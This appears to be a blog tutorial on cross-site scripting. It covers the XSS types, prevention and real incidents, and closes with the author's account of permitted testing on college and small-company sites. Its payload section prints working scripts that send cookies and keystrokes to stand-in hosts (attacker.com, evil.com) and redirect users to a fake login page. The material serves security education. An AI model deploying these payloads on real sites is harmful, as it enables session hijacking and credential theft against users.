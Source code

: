 ________________________________________
Cross-Site Scripting (XSS) – A Complete Guide with Real-World Examples and Prevention and what I  know and also I shared my strategy . How I start finding this vulnerability in website with permission  ..
Web applications are now at the heart of almost every business operation. But as they’ve grown more complex, they’ve also become increasingly attractive targets for cybercriminals.
One of the most persistent—and dangerous—threats to web applications is Cross-Site Scripting (XSS).
In this guide, we’ll explore what XSS is, how it works, notable real-world incidents, and—most importantly—how you can prevent it.
________________________________________
What is the OWASP Top 10?
Before diving into XSS, it’s worth understanding where it sits in the wider security landscape.
The OWASP Top 10 is a globally recognized list of the most critical web application security risks, published by the Open Web Application Security Project (OWASP).
It serves as an awareness guide for developers, security professionals, and organizations—helping them identify, prioritize, and address the most common and impactful vulnerabilities seen in real-world applications.
XSS has been a recurring entry in the OWASP Top 10 for many years, highlighting just how widespread and dangerous it remains.
________________________________________
What is XSS (Cross-Site Scripting)?
Cross-Site Scripting (XSS) is a vulnerability that allows attackers to inject malicious scripts into otherwise trusted web pages. These scripts run in the browsers of unsuspecting users, effectively letting an attacker execute code in the context of the legitimate site.
With this capability, attackers can:
•	Steal sensitive data (e.g., session cookies).
•	Impersonate legitimate users.
•	Redirect visitors to malicious sites.
•	Deface pages or alter website content.
The danger comes from the fact that browsers inherently trust the source of the page. If the malicious script appears to come from the site itself, security checks are often bypassed.
________________________________________
Types of XSS Attacks
There are three main types of XSS attacks, each delivered differently.
1. Stored XSS (Persistent XSS)
The malicious script is permanently stored on the target server—commonly in a database, forum post, or comment field—and then served to users later.
Example:
<script>alert('Stored XSS')</script>
________________________________________
2. Reflected XSS (Non-Persistent XSS)
The malicious script is immediately reflected in the server’s response—often through query parameters or form submissions—and executed in the victim’s browser.
Example:
<script>alert('Reflected XSS')</script>
________________________________________
3. DOM-Based XSS
This attack occurs entirely on the client side, when insecure JavaScript in the page modifies the DOM based on unsanitized user input.
Example:
<script>
  let q = new URLSearchParams(location.search).get('q');
  document.body.innerHTML = q;
</script>
________________________________________
How an XSS Attack Works
1.	Finding an entry point – The attacker locates an input field, parameter, or API response that processes user input insecurely.
2.	Injecting malicious code – JavaScript or another payload is inserted.
3.	Exploiting poor validation – The application fails to sanitize or encode the input.
4.	Delivering the payload – The malicious script is stored, reflected, or executed via DOM manipulation.
5.	Victim interaction – A user loads the compromised page or clicks a malicious link.
6.	Execution – The attacker’s script runs in the victim’s browser, enabling actions like cookie theft, phishing, or session hijacking.
________________________________________
Common Goals of XSS Attacks
While many demonstrations of XSS simply display a pop-up alert, attackers use it for far more serious purposes:
•	Cookie Theft – Capturing session cookies to impersonate users.
•	Session Hijacking – Taking over active sessions.
•	Keylogging – Recording keystrokes to steal credentials.
•	Phishing – Redirecting victims to fake login pages.
________________________________________
Why Attackers Prefer JavaScript for XSS
JavaScript is the go-to language for XSS payloads because:
•	It runs in every modern browser.
•	It can read and manipulate the DOM.
•	It can access cookies, local storage, and session data (with some restrictions).
•	It can send requests to attacker-controlled servers.
________________________________________
Educational XSS Payload Examples
⚠️ Important: These examples are for safe, controlled environments only—such as DVWA, OWASP Juice Shop, or local testing.
Never test these on live or unauthorized systems.
1.	Basic Alert
<script>alert('XSS')</script>
2.	Cookie Theft
<script>
  fetch('http://attacker.com/steal?cookie=' + document.cookie);
</script>
3.	Session Hijacking
<script>
  new Image().src = "http://evil.com/hijack?data=" + document.cookie;
</script>
4.	Keylogging
<script>
  document.onkeypress = function(e) {
    fetch('http://evil.com/log?key=' + e.key);
  }
</script>
5.	Phishing Redirection
<script>
  window.location = "http://fake-login.com";
</script>
________________________________________
**Preventing Cross-Site Scripting (XSS)**
Effective XSS prevention requires both detection and proactive defense.
________________________________________
1. Detecting XSS Vulnerabilities
•	Vulnerability Scanning – Automated tools can identify common XSS patterns.
•	Static Code Analysis – Finds insecure coding practices before deployment.
•	Security Testing in CI/CD – Integrates security scans into the development lifecycle for early detection.
________________________________________
2. Prevention Techniques
Input Validation
•	Always sanitize and validate user input before processing.
•	Reject unexpected formats and suspicious characters.
•	Use whitelists instead of blacklists whenever possible.
Output Encoding
•	Encode user-provided content before rendering it in the browser.
•	Apply context-aware encoding for HTML, JavaScript, CSS, and URL contexts.
Example – Output Encoding in JavaScript:
const userInput = "<script>alert('XSS');</script>"; 
const encodedInput = encodeURIComponent(userInput);
console.log(encodedInput); // %3Cscript%3Ealert('XSS')%3C%2Fscript%3E
________________________________________
Real-World Examples of XSS Attacks
XSS has caused serious damage to well-known platforms:
•	Zoom (2020) – A persistent XSS flaw in Zoom’s web client allowed malicious code injection via chat. Zoom patched it quickly but paused feature development for 90 days to focus on security.
•	WordPress WPBakery Page Builder (2020) – A stored XSS bug let attackers inject scripts into thousands of sites, leading to defacement, data theft, and downtime.
•	Slack (2021) – A stored XSS in shared workspace invitations enabled token theft and unauthorized changes. Slack responded with an emergency patch and enhanced security reviews.
•	Atlassian Confluence (2021) – A persistent XSS allowed malicious macros to hijack user sessions, forcing urgent security patches.
________________________________________
Final Thoughts
Cross-Site Scripting remains one of the most prevalent and dangerous web vulnerabilities.



**My Personal Experience**: How I Found an XSS Vulnerability in a Real Website
As someone passionate about web application security, I’ve always been curious about how vulnerabilities work in real-world systems.
When I first started exploring Cross-Site Scripting (XSS), my goal wasn’t just to hack for fun — it was to learn, practice ethically, and help secure real applications.
________________________________________
Step 1 – Researching the Most Effective Scripts
Before touching any target, I spent time studying which XSS payloads are most successful in practical scenarios.
I read reports on Bugcrowd and HackerOne, where security researchers shared their techniques.
From there, I learned which scripts tend to bypass filters, how browsers process them, and which contexts are more vulnerable.
________________________________________
Step 2 – Picking the First Target
I didn’t want to start with huge corporations right away.
Instead, I chose something closer to home — a college website near me.
Why? Because for practicing in a controlled and ethical way, college websites are a great start (once you have permission).
They’re usually complex enough to have multiple entry points, but small enough that you can talk directly to the admins.
________________________________________
Step 3 – Getting Permission
This step is non-negotiable.
I reached out to the administrator with a clear message:
“I’m a security researcher learning about web vulnerabilities.
I’d like to test your website for potential security flaws.
I will not harm your system or misuse any data, and I will share my findings with you.”
Once I got the green light, I could test without worrying about legal issues.
________________________________________
Step 4 – Testing Every Input
My approach was simple but thorough — I tested every input field I could find:
•	Search bars
•	E-library search
•	Feedback forms
•	Tool input fields
•	Signup & registration forms
For each one, I tried inserting my XSS payloads.
Sometimes they didn’t work because of restrictions like input length limits.
________________________________________
Step 5 – Thinking Like an Attacker
If a field didn’t allow enough characters, I opened my browser’s Inspect Element tool and increased the input size limit manually.
This allowed me to inject longer payloads.
Sometimes I needed to experiment creatively — not every attack works on the first try.
This process taught me a valuable lesson:
Security is just an illusion — it’s only as strong as the creativity of the person testing it.
________________________________________
Step 6 – Expanding My Scope
After testing the college site and responsibly reporting my findings, I moved on to:
•	Small tech-related companies
•	Educational institutions
•	Public service portals
Each time, I followed the same ethical hacking process:
1.	Get permission first.
2.	Test systematically.
3.	Document everything.
4.	Report vulnerabilities responsibly.
________________________________________
Final Thoughts
This journey taught me more than just XSS payloads — it taught me discipline, ethics, and problem-solving.
Finding a vulnerability is exciting, but helping an organization fix it is far more rewarding.
Security isn’t just about breaking things; it’s about making them stronger.
________________________________________



